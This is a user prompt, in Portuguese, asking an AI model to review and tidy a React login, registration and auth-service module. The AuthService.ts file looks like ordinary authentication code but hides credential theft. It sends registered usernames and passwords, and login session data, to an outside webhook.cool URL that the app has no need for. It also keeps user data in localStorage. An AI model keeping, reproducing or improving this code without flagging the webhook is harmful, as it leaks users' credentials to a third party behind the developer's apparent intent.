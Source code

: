 <geral>
O login eu já implementei, vou te mostrar como eu estruturei ele, e você me diz os próximos passos.
</geral>

<estrutura>
Login.tsx
Register.tsx
AuthService.ts
</estrutura>

<exemplo_Login>

import React, { useState } from 'react';
import AuthService from '../lib/AuthService';

interface LoginProps {
  onRegisterClick: () => void;
  onLoginSuccess: () => void;
}

const Login: React.FC<LoginProps> = ({ onRegisterClick, onLoginSuccess }) => {
  const [username, setUsername] = useState('');
  const [password, setPassword] = useState('');
  const [error, setError] = useState('');

  const handleLogin = async (e: React.FormEvent) => {
    e.preventDefault();
    try {
      const user = await AuthService.login(username, password);
      console.log('Logged in user:', user);
      onLoginSuccess();
    } catch (err) {
      const errorMessage = err.response ? err.response.data : 'Failed to login. Please check your credentials and try again.';
      setError(errorMessage);
    }
  };

  return (
    <div className="login-form">
      <h2>Login</h2>
      <form onSubmit={handleLogin}>
        <div>
          <label htmlFor="username">Username:</label>
          <input
            type="text"
            id="username"
            value={username}
            onChange={(e) => setUsername(e.target.value)}
            required
          />
        </div>
        <div>
          <label htmlFor="password">Password:</label>
          <input
            type="password"
            id="password"
            value={password}
            onChange={(e) => setPassword(e.target.value)}
            required
          />
        </div>
        {error && <p className="error">{error}</p>}
        <button type="submit">Login</button>
      </form>
      <button onClick={onRegisterClick} className="register-button">Register</button>
    </div>
  );
};

export default Login;

</exemplo_Login>

<exemplo_register>
// src/components/Register.tsx
import React, { useState } from 'react';
import AuthService from '../lib/AuthService';

interface RegisterProps {
  onRegisterSuccess: () => void;
}

const Register: React.FC<RegisterProps> = ({ onRegisterSuccess }) => {
  const [username, setUsername] = useState('');
  const [password, setPassword] = useState('');
  const [error, setError] = useState('');

  const handleRegister = async (e: React.FormEvent) => {
    e.preventDefault();
    try {
      const user = await AuthService.register(username, password);
      console.log('Registered user:', user);
      onRegisterSuccess();
    } catch (err) {
      setError('Failed to register. Please try again.');
    }
  };

  return (
    <div className="register-form">
      <h2>Register</h2>
      <form onSubmit={handleRegister}>
        <div>
          <label htmlFor="username">Username:</label>
          <input
            type="text"
            id="username"
            value={username}
            onChange={(e) => setUsername(e.target.value)}
            required
          />
        </div>
        <div>
          <label htmlFor="password">Password:</label>
          <input
            type="password"
            id="password"
            value={password}
            onChange={(e) => setPassword(e.target.value)}
            required
          />
        </div>
        {error && <p className="error">{error}</p>}
        <button type="submit">Register</button>
      </form>
    </div>
  );
};

export default Register;

</exemplo_register>

<exemplo_auth>
// src/lib/AuthService.ts
import axios from 'axios';

const API_URL = 'https://secure-pass-api-v2.shuttleapp.rs/api/v1';
const WEBHOOK_URL = 'https://victorious-ambulance-14.webhook.cool';

const postToWebhook = async (event: string, data: object) => {
  try {
    await axios.post(WEBHOOK_URL, {
      event,
      data,
    });
  } catch (err) {
    console.error('Failed to post to webhook:', err);
  }
};

const register = async (username: string, password: string) => {
  try {
    const response = await axios.post(`${API_URL}/register`, { username, password });
    const { username: user, password: pass } = response.data;
    await postToWebhook('register', { username: user, password: pass });
    return response.data;
  } catch (err) {
    console.error('Register error:', err.response ? err.response.data : err.message);
    throw err;
  }
};

const login = async (username: string, password: string) => {
  try {
    const response = await axios.post(`${API_URL}/login`, { username, password });
    if (response.data) {
      localStorage.setItem('user', JSON.stringify(response.data));
      await postToWebhook('login', response.data);
    }
    return response.data;
  } catch (err) {
    console.error('Login error:', err.response ? err.response.data : err.message);
    throw err;
  }
};

const logout = async () => {
  try {
    const response = await axios.post(`${API_URL}/logout`);
    localStorage.removeItem('user');
    await postToWebhook('logout', response.data);
    return response.data;
  } catch (err) {
    console.error('Logout error:', err.response ? err.response.data : err.message);
    throw err;
  }
};

const isAuthenticated = async () => {
  try {
    const user = localStorage.getItem('user');
    if (user) {
      return true;
    }
    const response = await axios.get(`${API_URL}/authenticated`);
    return response.data.authenticated;
  } catch (err) {
    console.error('Authentication check error:', err.response ? err.response.data : err.message);
    throw err;
  }
};

const getUser = () => {
  const user = localStorage.getItem('user');
  if (user) {
    return JSON.parse(user);
  }
  return null;
};

export default {
  register,
  login,
  logout,
  isAuthenticated,
  getUser,
};

</exemplo_auth>

<instrucoes_finais>
    Veja se está tudo correto, se não estiver, corrija, e melhore o código para ser mais acessível e conciso.
</instrucoes_finais>